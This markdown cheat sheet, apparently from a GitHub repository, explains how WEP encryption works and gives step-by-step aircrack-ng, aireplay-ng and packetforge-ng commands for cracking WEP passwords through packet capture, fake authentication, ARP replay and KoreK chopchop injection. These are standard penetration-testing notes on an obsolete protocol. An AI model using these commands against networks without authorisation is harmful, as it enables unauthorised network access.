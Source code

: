# WIRED EQUIVALENT PRIVACY

### ~ Uses RC4 algorithm 
### ~ Random Initialization vector (IV) is used to generate keys. (24 bits)
### ~ IV + Key (password) = key stream
### ~ IV is sent in plain text and can repeat in busy networks, hence can be used to determine key streams.

## 1. BASIC CASE - BUSY NETWORKS

#### Perform targetted packet sniffing and crack the password using `aircrack-ng`.

> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> `aircrack-ng <cap file>`

#### More the number of packets captured, higher the chances of password cracking.

## 2. NON BUSY NETWORKS - 

#### Associate with the network and force it to generate packets.
#### Association:
##### Get MAC Address of wireless adapter using `ifconfig` (First 12 characters next to unspec).
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`

### ~ ARP Request Reply Attack:
#### Wait for an ARP packet to be transmitted from the network and re-transmit it, forcing the AP to generate a new packet with new IV.
> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`
> `aireplay-ng --arpreplay -b <AP-mac> -h <adapter-mac> wlan0`
> `aircrack-ng <cap file>`

### ~ Korek Chop Chop Attack:
#### Try to determine the key stream for a packet, and create a new packet with the key stream. Inject this packet into the traffic, hence forcing the AP to generate a new packet with a new IV.

> `airodump-ng --bssid <host-mac> -channel <channel> --write <file> wlan0`
> `aireplay-ng --fakeauth 0 -a <host-bssid> -h <adapter-mac> wlan0`
> `aireplay-ng --chopchop -b <target-bssid> -h <adapter-mac> wlan0`
> 
> `packetforge-ng -0 -a <target> -h <adapter> -k 255.255.255.255 -l 255.255.255.255 -y <keystreamFile(.xor) -w <1*>`
>  
>  `aireplay-ng -2 -r <2*> wlan0`

#### 1* - Name to save fake packet generated from packetforge.
#### 2* - Name of the packet generated through packetforge.

#### Once number of packets reach around 20,000 from the last command, use `aircrack-ng` to crack the password.
